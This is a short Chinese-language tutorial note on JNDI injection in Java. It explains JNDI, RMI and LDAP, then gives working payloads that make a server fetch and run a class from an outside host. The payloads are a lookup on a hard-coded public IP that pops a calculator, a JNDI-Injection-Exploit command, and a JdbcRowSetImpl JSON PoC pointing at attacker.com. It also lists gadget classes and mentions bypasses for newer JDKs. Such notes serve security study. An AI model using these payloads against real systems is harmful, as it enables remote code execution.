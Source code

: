 什么是jndi？

JNDI：Java命名和目录接口

JNDI允许你通过一个唯一的名称来查找和访问在应用程序中需要使用的各种服务或资源，而不需要知道它们的具体位置或如何连接到它们的细节。这使得不同组件之间可以通过名称相互引用，而不需要了解对方的具体实现细节或网络位置，从而支持分布式应用的开发。



RMI：远程方法调用注册表

LDAP：轻量级目录访问协议

二者都可以进行远程调用对象，可以远程执行java代码class文件



```java
public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        // 创建一个rmi ldap等服务调用
        InitialContext ini = new InitialContext();
        // 调用rmi ldap等服务对象类（远程服务）
        // ldap://47.94.236.117:1389/jsna19 = 远程地址的一个class文件被执行
        ini.lookup("ldap://47.94.236.117:1389/jsna19"); // 弹计算器
    }
}

```



JNDI远程调用

1、使用利用工具生成调用地址

```java
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A xx.xx.xx.xx
```

2、使用远程调用：

```
new InitialContext().lookup("ldap://xx.xx.xx.xx:1389/djasas");
new InitialContext().lookup("rmi://xx.xx.xx.xx:1099/daskdl");
```

除了JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，还有marshalsec工具





RMI-JNDI注入、LDAP-JNDI注入 与 JDK版本 的关系

![image-20250621000106522](assets/image-20250621000106522.png)

也就是说JNDI注入是有条件的



marshalsec工具针对jdk高版本的修复，有绕过方法



在RMI服务中调用了InitialContext.lookup()的类有：

org.springframework.transaction.jta.JtaTransactionManager.readObject() 

com.sun.rowset.JdbcRowSetImpl.execute() 

javax.management.remote.rmi.RMIConnector.connect() 

org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName(String sfJNDIName)



所以poc一般这样写：

```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "rmi://attacker.com/evil",
  "autoCommit": true
}
```



在LDAP服务中调用了InitialContext.lookup()的类有: 

InitialDirContext.lookup() 

Spring LdapTemplate.lookup() 

LdapTemplate.lookupContext()